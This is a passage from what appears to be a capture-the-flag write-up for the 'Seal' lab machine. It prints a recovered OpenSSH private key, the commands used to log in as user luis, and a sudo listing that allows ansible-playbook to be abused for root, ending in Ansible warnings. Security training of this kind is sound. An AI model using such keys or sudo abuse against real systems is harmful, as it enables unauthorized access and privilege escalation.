 ```
AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
/s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc
YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

We can use this key now to log in as Luis and grab the user flag after setting the correct permissions on it.

```
$ vi id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa luis@10.129.173.76
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

...[snip]...

Last login: Sat Jul 10 20:42:12 2021 from 10.10.14.68
-bash-5.0$ ls
gitbucket.war  run.yml  test  user.txt
-bash-5.0$ wc -c user.txt
33 user.txt
```

# Root

Looking at sudo permissions, we see that Luis can run `ansible-playbook` on any configuration file which gives us a quick way to get to root.

```
-bash-5.0$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```


[{% raw %}WARNING{% endraw %}]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[{% raw %}WARNING{% endraw %}]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set 'command_warnings=False' in ansible.cfg to